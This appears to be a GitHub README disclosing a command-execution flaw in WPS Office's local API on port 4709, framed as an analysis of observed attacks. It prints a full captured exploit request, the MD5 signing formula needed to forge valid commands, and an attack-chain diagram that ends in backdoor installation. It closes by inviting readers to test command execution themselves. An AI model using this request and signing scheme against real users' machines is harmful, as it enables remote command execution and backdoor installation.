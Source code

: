 # Chinese-hackers-use-WPS 0day-to-attack
We caught a batch of malicious attacks from Chinese hackers!We caught a batch of malicious attacks from Chinese hackers
# China-office-software-wps-web-command-execution
When the wps software is running, an api interface with port 4709 will be opened. An attacker can request this interface to execute commands.

# What is Wps?
WPS Office is a widely used office suite with a user base of over 200 million, developed by Chinese company Kingsoft.

# What is Wps wpscloudsvr Api?
As we said, wps(wpscloudsvr.exe)will listen to port 127.0.0.1:4709 when it starts, but it cannot be accessed by normal access. You need to use a domain name to access, such as: http://localhost.wbridge.wps.cn:4709

![Listen](https://github.com/George-boop-svg/Chinese-hackers-use-WPS-to-attack/blob/main/Listen%204709.png)

If you run wps and find that port 4709 is listened to, you can directly access the URL.

![Web](https://github.com/George-boop-svg/Chinese-hackers-use-WPS-to-attack/blob/main/web%20api.png)

# How to use api to execute commands?

Some time ago we captured a web request from an attacker as follows:
```
POST /command/invoke HTTP/1.1
Host: localhost.wbridge.wps.cn:4709
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 732
Origin: https://docs.wps.cn
Referer: https://docs.wps.cn/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-site
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua: "Google Chrome";v="114", "Chromium";v="114", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Te: trailers
Connection: close

app_id=kdocs&cmd=ksoqing%3A%2F%2Ftype%3Dksolaunch%26cmd%3DcGx1Z2luOi8vcGFnZUNsb3VkRG9jcz91cmw9aHR0cHM6Ly9haXJzaGVldC1jb21tdW5pdHkud3BzLmNuLw%3d%3d%26token%3D7b542dc31594d4f443dfc073fcb8abd3&ks_local_token=2BwJYEBTwY2ueCNrylNVQhMGt8QMNR3A&nonce_str=AbQ5fb66Q23E2yG3dbSM2TQ8M4HmD7i8&t=1695719826922&sign=C16B6005259121B111BF72787186D057FF191D04D2374F47E064F7A541B3601A
```
After the above request package is executed, the api interface of wps will be triggered and a wps official website will be opened. The attacker's malicious payload will be stored in the website. After loading, the backdoor will be downloaded to the specified directory and run.

## Simple analysis
Let’s do a simple analysis here.
Through reverse analysis, we found that cmd is the base64-encoded WPS official website domain name, because WPS restricts only some whitelisted domain names to be opened with the built-in browser, and those not in the whitelist can be opened with the user's default browser.whitelisted domain like:*.wps.cn  *.wps.com  *.wpscdn.cn  *.kdocs.cn  ....

### About Sign Token
```
md5(cmd + '_qingLaunchKey_')
```

# How hackers exploited the vulnerability?
We found that Chinese hackers are using this method to attack!
```
        (attack)
hacker >>>>>>>>>> web site(Install Js Payload Backdoor)
        (access)                           (run js payload)
user   >>>>>>>>>> web site(Hacker attack)   >>>>>>>>>>  attack wps (if you start wps and 4709 open)    >>>>>>>>>>  install backdoor
```

# End
If you want to implement command execution, you can go to https://www.wps.cn to download the software for testing.

Thanks:[Trend](https://www.trendmicro.com/)

